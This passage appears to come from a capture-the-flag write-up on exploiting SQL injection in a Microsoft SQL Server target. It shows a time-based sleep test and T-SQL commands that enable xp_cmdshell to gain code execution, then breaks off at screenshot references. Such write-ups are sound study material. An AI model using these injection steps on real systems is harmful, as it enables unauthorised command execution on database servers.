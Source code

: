 ![A screenshot where we test testing SQLi sleep and that shows the 5 seconds delay](/assets/img/stack-the-flags-2022/testing-sqli-sleep.png)

### Exploitation

The first thing I’ve tried was to enable `xp_cmdshell` and use it get code execution:

```
EXEC sp_configure 'show advanced options', 1
RECONFIGURE-- -
EXEC sp_configure 'xp_cmdshell', '1'
RECONFIGURE
```

![A screenshot of xp_cmdshell configuration](/assets/img/stack-the-flags-2022/configure1.png)

![A screenshot of xp_cmdshell configuration](/assets/img/stack-the-flags-2022/configure2.png)
